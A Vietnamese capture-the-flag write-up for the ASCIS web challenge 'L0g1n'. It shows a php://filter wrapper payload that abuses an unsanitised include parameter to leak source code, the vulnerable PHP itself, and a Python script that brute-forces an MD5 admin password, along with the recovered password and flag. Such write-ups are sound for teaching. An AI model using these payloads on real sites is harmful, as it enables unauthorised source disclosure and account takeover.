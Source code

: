 # L0g1n - ASCIS

### Thể loaij: Web

### Link bài: http://27.32.87.34.bc.googleusercontent.com

### Gợi ý: Không có

### Kiến thức:
- Path Traversal
- PHP Wrappers and Protocols
- Hash md5

### Phân tích đề:
Khi vào link này thì nó redirect sang trang này. Hừmmm

http://27.32.87.34.bc.googleusercontent.com/?page=home

![](./img/home.png?raw=true)
Đầu tiên mình nghĩ tới việc dùng Path traversal.

![](./img/url_traversal.png?raw=true)

No thing is here.
Thử một vài cái nữa vẫn không có gì xảy ra.

Thôi thì thử dùng PHP Wrappers and Protocols
cho tham số page=php://filter/read/convert.base64-encode/resource=home

![](./img/base64_home.png?raw=true)

Ái chà chà. Tao có được mã base64 của trang home.php.

Giờ dùng base64 decode thôi.
![](./img/base64_home_terminal.png?raw=true)

Lúc vào web để xem thì ta biết được nó có 3 trang: home, login, register với trang index nữa.
Giờ tao lấy hết source code của nó.

Ta chú ý các đoạn source sau:

1/ Trong file index.php
```php
    if(isset($_GET["page"]) && !empty($_GET["page"]))
  {
    if( strpos(strtolower($_GET["page"]), "secret") !== false)
      {
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
      }
    include($_GET["page"].".php");
  }
  else
  {
    header("Location: ?page=home");
  }
```

2/ Trong file home.php
```php
<?php 
			include('secret.php');
			echo '<h3>';
			if(isset($_SESSION['user']) && $_SESSION['user']==="admin")
			{
				print("Oops, Admin? Here your flag...<br><font color='red'>( ノ-_-)ノ ( ノ-_-)ノ</font><font color='white'> $flag </font><font color='red'>ヾ(^-^ヽ)ヾ(^-^ヽ)</font>");
			}
			else
			{
				print("Hello, it looks like you haven't logged in yet, please <a href='?page=login'>L0g1n</a><br><br><font color='green'>!!(ﾒ￣ ￣)_θ☆°0°)/</font> <font color='blue'>(`⌒*)O-(`⌒´Q)</font> <font color='red'>(¬_¬'')ԅ(￣ε￣ԅ)</font>");
			}
			echo '</h3>';
		?>

```

3/ Trong file login.php

```php
if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]) && isset($_POST["token"]))
{
	if($_SESSION["form_token"]===$_POST["token"])
	{
  		unset($_SESSION['form_token']);
  		$_SESSION["form_token"] = md5(uniqid(rand(), true));
  		if ($_POST["username"] === "admin" && md5($_POST["password"]) === "c3cef6586e2e5705d9ed18ba8f4346c0")
        {
  			$_SESSION['user'] = "admin";
  			print("Ok... Have a good day!");
  		}
  		else if ($_POST["username"] === "admin") 
  		{
  			print("Wrong Password, <font color='red'>(╯°-°)╯</font><font color='brown'>彡┻━┻</font>");
  		}
  		else
  		{
  			print("Wrong Username/Password<br><font color='blue'>‿︵‿︵‿︵‿</font><font color='red'>ヽ(°□° )ノ</font><font color='blue'>︵‿︵‿︵‿︵</font>");
  		}
	}
}
else 
{
	print("Hello, Login here <font color='green'>＼(＾▽＾)／</font>");
}

```

4/ Tring file register.php

```php
<?php
if (!defined('check_access')) 
{
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
}
?>
<html>
	<title> L0g1n </title>
	<body>
		<h1><font color="purple">🔗 Register (Under maintenance)</font></h1>

<?php

echo '<h3>';

if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]))
{
	if($_POST["username"] === "admin") 
	{
		print("<font color='red'>(っ•﹏•)っ</font> User already exists ");
	}
	else
	{
		print("Our register service is under maintenance so please come back later.<br><font color='blue'>ヾ(⌐■_■)ノ♪</font>");
	}
}

echo '</h3>';

?>
<form action="?page=register" method="POST">
		<br><strong>USERNAME</strong><br> <input disabled type="text" title="Something very wrong!!!" pattern="[a-z0-9]{4,10}" name="username"/><br>
		<strong>PASSWORD</strong><br> <input disabled type="password" title="Something very wrong!!!" pattern="[a-h0-9]{4,7}" name="password" /><br>
		<strong>ADDRESS</strong><br> <input disabled type="address" name="address"> (Optional)<br><br>
		<button type="submit" class="button1">Register</button>
		</form>
	</body>
</html>

```

### Suy luận các thứ:

1/ Đầu tiên là file index.php
![](./img/index_php.png?raw=true)
Có lẽ chỉ cần bypass qua được cái strpos và strtolower là có thể lấy được source của file secret.php (nơi chứa flag)
Nhưng rất tiếc, sau một đống thời gian tìm và thử => No hope :(

Trong file home.php
![](./img/home_php.png?raw=true)
Trong này chả có gì nhiều. Ta chỉ biết được là đăng nhập bằng admin được thì có flag thôi.

Tiếp theo là trong file register.php
![](./img/register_php.png?raw=true)
Trong này ta chỉ nên chú ý một đoạn là đoạn nhập form
Username và password được pattern trong khoảng từ a-h và từ 0-9 với độ dài trong khoảng 4-7.
Không biết ban tổ chức có lừa mình không. Nhưng mong là password của admin cũng thỏa mãn điều kiện này để bruce force.
  
Tiếp theo là trong file login.php
![](./img/login_php.png?raw=true)
Úi chà, có được password sau khi md5 là 'c3cef6586e2e5705d9ed18ba8f4346c0' luôn. Giờ decrypto cái password chắc ra được mật khẩu.
Mình code một đoạn để "chó ngáp phải ruồi" thôi. Chạy mà lòng mong BTC không lừa mình.

```python
import hashlib 
import secrets
res = "c3cef6586e2e5705d9ed18ba8f4346c0"
while True:
    password = ''.join(secrets.choice('abcdefgh0123456789') for i in range(7))
    result = hashlib.md5(bytes(password,encoding='utf-8'))
    if(res == result.hexdigest()):
        print(password + ": True")
        break
    else:
        print(password + ": False")
```

Chạy một hồi thì ra được password là 143b4b3


Vào trang login submit với username = admin và password = 143b4b3 thôiiii.
![](./img/logged_in.png?raw=true)

Vào lại home:

![](./img/flag.png?raw=true)

Flag:  ASCIS{__Hav3_Y0u_Heard_Ab0ut__HTML_PATT3rN?_} 

# Khá toang. Anyway, THIS IS THE ENDGAME!!!!
